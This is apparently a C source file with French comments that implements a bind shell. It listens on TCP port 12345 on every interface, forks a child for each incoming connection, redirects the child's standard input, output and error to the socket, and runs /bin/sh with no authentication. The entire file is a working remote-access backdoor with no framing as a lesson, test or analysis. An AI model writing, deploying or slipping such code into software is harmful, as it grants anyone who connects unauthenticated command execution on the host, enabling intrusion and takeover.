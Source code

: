 #include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <arpa/inet.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/wait.h>
#include <unistd.h>

#define PORT 12345  // Port d'écoute du serveur

int main(int argc, char* argv[]) {
    int server_sock, client_sock;
    struct sockaddr_in server_addr, client_addr;
    socklen_t client_len = sizeof(client_addr);

    // Création de la socket serveur
    server_sock = socket(AF_INET, SOCK_STREAM, 0);
    if (server_sock < 0) {
        perror("Erreur lors de la création de la socket");
        exit(1);
    }

    // Configuration de l'adresse du serveur
    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY;  // Écoute sur toutes les interfaces
    server_addr.sin_port = htons(PORT);

    // Liaison de la socket au port et adresse spécifiés
    if (bind(server_sock, (struct sockaddr*)&server_addr, sizeof(server_addr)) < 0) {
        perror("Erreur lors de la liaison de la socket");
        exit(2);
    }

    // Mise en écoute des connexions entrantes
    if (listen(server_sock, 5) < 0) {
        perror("Erreur lors de la mise en écoute");
        exit(3);
    }

    printf("Serveur en écoute sur le port %d...\n", PORT);

    while (1) {
        // Acceptation d'une connexion entrante
        client_sock = accept(server_sock, (struct sockaddr*)&client_addr, &client_len);
        if (client_sock < 0) {
            perror("Erreur lors de l'acceptation de la connexion");
            continue;
        }

        printf("Connexion reçue d'un client...\n");

        // Création d'un processus fils pour gérer la connexion
        int pid = fork();

        if (pid < 0) {
            perror("Erreur lors de la création du processus fils");
            close(client_sock);
            continue;
        }

        if (pid == 0) {  // Processus fils
            close(server_sock);  // Le fils ferme la socket d'écoute

            // Redirection des entrées/sorties
            dup2(client_sock, STDIN_FILENO);
            dup2(client_sock, STDOUT_FILENO);
            dup2(client_sock, STDERR_FILENO);

            // Exécution de l'interpréteur de commandes
            execlp("/bin/sh", "/bin/sh", (char *)NULL);

            // En cas d'erreur avec execlp
            perror("Erreur lors de l'exécution du shell");
            exit(4);
        } else {  // Processus parent
            close(client_sock);  // Le parent ferme la socket client et continue à écouter
        }
    }

    return 0;
}
